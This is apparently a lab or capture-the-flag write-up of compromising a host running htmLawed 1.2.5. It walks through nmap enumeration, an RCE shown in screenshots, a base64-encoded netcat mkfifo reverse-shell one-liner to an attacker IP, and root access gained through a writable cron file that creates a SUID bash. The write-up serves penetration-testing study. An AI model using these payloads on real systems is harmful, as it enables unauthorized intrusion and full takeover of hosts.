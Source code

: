 ## First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Tue Feb 20 14:22:09 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 22,80 -Pn 192.168.239.190
Nmap scan report for 192.168.239.190
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: htmLawed (1.2.5) test
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 14:22:25 2024 -- 1 IP address (1 host up) scanned in 16.09 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/566e82a0-d864-46f8-9119-546ae6e7bcc5)

a web server is runing on port `80` opening it on a browser, we can see it is running `htmlawed 1.2.5`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/18e08424-2514-427b-af39-b045282b4990)

after some research found out that it is vuln to RCE by abusing some functions in the settings.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/84c43fe6-8cca-4d09-987d-ad6caa52fc33)

intercept with burp and forward. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/791b4b98-ba67-415a-9179-7a334d292d01)

we triggered RCE. now let's get a reverse shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.212 80 >/tmp/f

#base64 encode
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y=

echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y= | base64 -d|bash
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ccc4c8d4-b1cc-4333-b356-d8a10304f37d)

proccess the payload and check ncat listener

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/60c697de-2254-4e09-b05f-666ce18183f8)

we got a reverse shell. 


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9a2a578b-7fd8-4c4c-b5c2-1543647b53a5)

running pspy on the target, we can see a cron job running as root. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ac26305a-8433-49a1-b2fa-5734ca8298bc)

checking the content of the file, we can see we have permission to write to the file, so we put in an suid creation payload in the file and wait for the cron job to trigger it.

```shell
www-data@law:/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
www-data@law:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
www-data@law:/tmp$ ls -al /bin/bash -p 
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
www-data@law:/tmp$ /bin/bash -p 
bash-5.1# whoami 
root
bash-5.1# 
```
we got suid `/bin/bash` and ran the command to spawn a root shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2dfef64c-77a0-4b1e-875a-b404a791baec)

and we are through 🙂 
